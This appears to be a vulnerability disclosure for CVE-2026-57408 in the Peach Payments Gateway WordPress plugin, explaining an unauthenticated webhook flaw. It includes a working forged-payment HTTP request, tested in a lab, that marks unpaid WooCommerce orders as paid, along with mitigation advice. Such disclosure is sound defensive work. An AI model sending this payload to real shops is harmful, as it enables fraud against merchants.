




# Peach Payments Gateway - Payment Status Forgery via Unauthenticated Webhook

# Overview

- CVE/Advisory: https://www.cve.org/CVERecord?id=CVE-2026-57408
- CVE-2026-57408
- Affected plugin: Peach Payments Gateway
- Affected version: `<= 4.0.2`



# Summary

The vulnerability is in the WooCommerce API webhook endpoint of Peach Payments Gateway:

```text
/?wc-api=wc_switch_webhook_peach_payments
```

This endpoint accepts public requests from the Internet. In version `4.0.2`, when the request is sent as `application/x-www-form-urlencoded`, the handler takes data directly from `$_POST` and passes it into the webhook processing function without verifying that the request actually came from Peach Payments.

An attacker only needs to know or guess the ID of a WooCommerce order that is in `pending` status, then send a forged request with:

```text
merchantTransactionId=<zero-padded-order-id>
result_code=000.000.000
id=<fake-transaction-id>
registrationId=<fake-registration-id>
```

Because `result_code=000.000.000` is treated by the plugin as a successful payment, the order reaches `payment_complete()`, is moved to paid/processing status, and the payment metadata is copied from the forged request.

As a result, an unauthenticated attacker can mark an unpaid order as paid.

# How I Found It

I focused on payment gateway webhook endpoints because this is where plugins often automatically update order status.

The plugin registers a WooCommerce API hook:

```php
add_action( 'woocommerce_api_wc_switch_webhook_peach_payments', [ __CLASS__, 'handle_switch_webhook' ] );
```

This hook creates the endpoint:

```text
/?wc-api=wc_switch_webhook_peach_payments
```

When reviewing `handle_switch_webhook()`, I saw that the plugin parses the raw body as JSON. If the JSON is empty and `$_POST` contains data, the plugin uses `$_POST` directly:

```php
public static function handle_switch_webhook() {
    $raw_body = file_get_contents( 'php://input' );
    $data = json_decode( $raw_body, true );

    if ( empty( $data ) && ! empty( $_POST ) ) {
        $data = $_POST;
        $webhook_method = 'post';
    } else {
        $data = self::decode_data($data);
    }

    $response = self::handle_webhook($data);
}
```

This is the risky part: the `$_POST` branch bypasses `decode_data()`. There is no shared secret, signature, nonce, capability check, IP allowlist, or server-side verification step with Peach Payments before the payment status is trusted.

After that, `handle_webhook()` trusts attacker-controlled fields:

```php
public static function handle_webhook($data) {
    $merchantTransactionId = $data['merchantTransactionId'];
    $result_code = $data['result_code'];
    $payment_order_id = $data['id'];
    $registrationId = $data['registrationId'];

    $order_number = PP_Gateway_Order_Utils::order_number_prep( $merchantTransactionId, true );
    $order = wc_get_order( $order_number );

    if ( PP_Gateway_Order_Utils::is_successful_result_code($result_code) ) {
        $order->payment_complete( $payment_order_id );
        $order->update_status( $custom_status, __( 'Payment completed via Peach Payments Webhook.', WC_PEACH_TEXT_DOMAIN ) );
        $order->update_meta_data( 'peach_webhook_handled', true );
        $order->save();
    }
}
```

From there, I created a WooCommerce order in `pending` status and sent a forged webhook request without a cookie. The order moved to `processing` and was marked as `paid`.

# Root Cause

The root cause is that the webhook processes public data without verifying the authenticity of the payload before changing the order payment status.

## 1. Public Webhook Endpoint

The WooCommerce API endpoint can be called directly:

```text
POST /?wc-api=wc_switch_webhook_peach_payments
```

A public webhook endpoint is normal for a payment gateway, but every public payload must be authenticated using a signature, shared secret, encrypted envelope, or server-side verification.

## 2. The `$_POST` Branch Does Not Go Through `decode_data()`

In `handle_switch_webhook()`, if the request is a form POST, the plugin uses:

```php
$data = $_POST;
$webhook_method = 'post';
```

This branch does not call:

```php
self::decode_data($data)
```

Therefore, an attacker can set important fields such as `merchantTransactionId`, `result_code`, `id`, and `registrationId`.

## 3. The Plugin Trusts Attacker-Controlled `result_code`

If `result_code` is treated as successful, the plugin calls:

```php
$order->payment_complete( $payment_order_id );
```

This is the critical sink because it turns an unpaid order into a paid order.

## 4. No Payment Status Verification With Peach Payments

Before calling `payment_complete()`, the plugin does not verify server-side that the transaction ID actually exists, belongs to the order, matches the amount, matches the merchant, and was confirmed as successful by Peach Payments.

# Exploit Flow

```text
Unauthenticated attacker
        |
        v
Knows or guesses a pending order ID
        |
        v
POST /?wc-api=wc_switch_webhook_peach_payments
        |
        v
merchantTransactionId=00000198
result_code=000.000.000
id=BB-TXN-198
registrationId=BB-REG-198
        |
        v
handle_switch_webhook()
        |
        v
$_POST fallback
        |
        v
handle_webhook()
        |
        v
wc_get_order(198)
        |
        v
payment_complete() + update_status()
        |
        v
Order moves from pending/unpaid to processing/paid
```

- Entry point: `/?wc-api=wc_switch_webhook_peach_payments`
- Condition: WooCommerce is active, Peach Payments Gateway is active, and there is an order in a payable status.
- Trigger: Unauthenticated form POST with `merchantTransactionId` and a successful `result_code`.
- Final impact: The WooCommerce order is marked as paid even though no real payment exists.

# PoC

Lab environment:

```text
WordPress: 6.9.4
WooCommerce: 10.7.0
Peach Payments Gateway: 4.0.2
Plugin slug: wc-peach-payments-gateway
Target: http://192.168.1.14:8093
```

Initial state:


```text
=== environment ===
6.9.4
name    version status
woocommerce 10.7.0 active
wc-peach-payments-gateway 4.0.2 active
=== create pending order ===
198
before_status=pending before_paid=no before_transaction=
```



Order `198` is `pending`, not paid, and has no transaction ID.

Forged Webhook Request

```http
POST /?wc-api=wc_switch_webhook_peach_payments HTTP/1.1
Host: 192.168.1.14:8093
Content-Type: application/x-www-form-urlencoded
Content-Length: 94

merchantTransactionId=00000198&result_code=000.000.000&id=BB-TXN-198&registrationId=BB-REG-198
```

Response

```http
HTTP/1.1 200 OK
Date: Mon, 27 Jul 2026 15:03:50 GMT
Server: Apache/2.4.66 (Debian)
X-Powered-By: PHP/8.3.30
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0, no-store, private
Content-Length: 15
Content-Type: text/html; charset=UTF-8

Webhook handled
```



After the request, the order status was changed:


```text
=== order after exploit ===
order_id=198 status=processing paid=yes transaction=BB-TXN-198 payment_order_id=BB-TXN-198 registration=BB-REG-198
```



Result:

```text
Before exploit: pending / unpaid / no transaction
After exploit:  processing / paid / transaction=BB-TXN-198
```

The transaction ID and registration ID are entirely attacker-supplied values from the POST body.

# Impact

An unauthenticated attacker can mark an unpaid WooCommerce order as paid.

Practical impact includes:

1. Triggering fulfillment workflows without a real payment.
2. Shipping physical goods or unlocking digital product downloads for the attacker.
3. Corrupting stock, accounting, invoice, and order state records.
4. Incorrectly syncing subscription or license state if the site has automatic integrations.
5. Writing fake transaction metadata to the order, making investigation and reconciliation harder.

For shops that automatically process orders after `payment_complete()`, this issue can cause direct financial loss.

# Limitations

- The attacker needs to know or guess a valid order ID.
- The target order must be in a payable status.
- The bug does not directly create WordPress admin access or RCE.
- The damage depends on the shop workflow after the order moves to paid/processing.

# Mitigation

Administrators should update Peach Payments Gateway to `4.0.3` or later.

At the code level, the webhook handler must reject unauthenticated or unsigned payment status updates. The plugin should not trust attacker-controlled POST fields such as `result_code`, `transaction_id`, or `registration_id` as proof of payment.

The server-side order update should only happen after verifying the payment status with Peach Payments using a trusted signature, server-to-server verification step, or another authoritative payment confirmation channel. Requests that do not pass this verification must not call `payment_complete()` or move an order into a paid/processing state.

# References

- Peach Payments Gateway: https://wordpress.org/plugins/wc-peach-payments-gateway/
- Patchstack advisory: https://patchstack.com/database/wordpress/plugin/wc-peach-payments-gateway/
- WordPress plugin source tag 4.0.2: https://plugins.svn.wordpress.org/wc-peach-payments-gateway/tags/4.0.2/
- WordPress plugin source tag 4.0.3: https://plugins.svn.wordpress.org/wc-peach-payments-gateway/tags/4.0.3/
 
